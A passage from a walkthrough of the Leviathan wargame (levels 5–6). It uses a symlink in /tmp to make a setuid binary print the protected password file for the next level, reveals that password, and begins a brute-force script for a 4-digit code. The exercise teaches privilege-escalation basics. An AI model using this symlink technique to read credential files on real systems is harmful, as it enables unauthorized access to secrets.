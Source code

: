 ```bash
fgetc(0x804d1a0)                                                 = '\n'
feof(0x804d1a0)                                                  = 0
putchar(10, 0x804a008, 0xf7c184be, 0xf7fbe4a0bash
)                   = 10
fgetc(0x804d1a0)                                                 = '\377'
feof(0x804d1a0)                                                  = 1
fclose(0x804d1a0)                                                = 0
getuid()                                                         = 12005
setuid(12005)                                                    = 0
unlink("/tmp/file.log")                                          = 0
+++ exited (status 0) +++
leviathan5@gibson:~$ echo "bash" > /tmp/file.log ;~/leviathan5 
bash
leviathan5@gibson:~$
```
>This time we got a binary file named `leviathan5` . when i run the file it tells me that he didnt find a file named file.log in temp folder . may be the file related to it. so i created the file with text bash and runned `ltrace` to see whats happening . it prints the text in file character by character .so its simple file printer we cant manipulate with some `code injections`. so may be we name passwd file of next level as `file.log` and put in tmp folder. it will read for us as the program as priviledges of `leviathan6`.
```bash
leviathan5@gibson:~$ cp /etc/leviathan_pass/leviathan6 /tmp/file.log
cp: cannot open '/etc/leviathan_pass/leviathan6' for reading: Permission denied
```
>i tried to copy the file in tmp folder but i dont have read permission .may be we can make `symlink` of file in tmp folder which can direct the program to exact location of passwd file.
```bash
leviathan5@gibson:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@gibson:~$ ~/leviathan5 
YZ55XPVk2l
```
>it worked . Gotcha !! we got a passwd for leviathan6 is **`YZ55XPVk2l`**.
# Leviathan6 to Leviathan7
-----
```bash
leviathan6@gibson:~$ ls -la
total 36
drwxr-xr-x  2 root       root        4096 Apr 23 18:05 .
drwxr-xr-x 83 root       root        4096 Apr 23 18:06 ..
-rw-r--r--  1 root       root         220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root       root        3771 Jan  6  2022 .bashrc
-r-sr-x---  1 leviathan7 leviathan6 15024 Apr 23 18:05 leviathan6
-rw-r--r--  1 root       root         807 Jan  6  2022 .profile
leviathan6@gibson:~$ file leviathan6 
leviathan6: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=b946d7a1e1d2e52404c75c7a5410c61151b63bce, for GNU/Linux 3.2.0, not stripped
leviathan6@gibson:~$ ./leviathan6 
usage: ./leviathan6 <4 digit code>
leviathan6@gibson:~$ ./leviathan6 9999
Wrong
```
> Again we got a binary file named `leviathan6`. i run it .it showed the usage that i takes `4 digit code` as a argument. i runned the program with 9999 code i prints `Wrong` . so i though instead of reverse engineering and see to what it compares the code . we can simply `bruteforce` 0 to 9999 code.
```bash
leviathan6@gibson:~$ vim /tmp/script.sh
leviathan6@gibson:~$ cat /tmp/script.sh
#!/bin/bash


```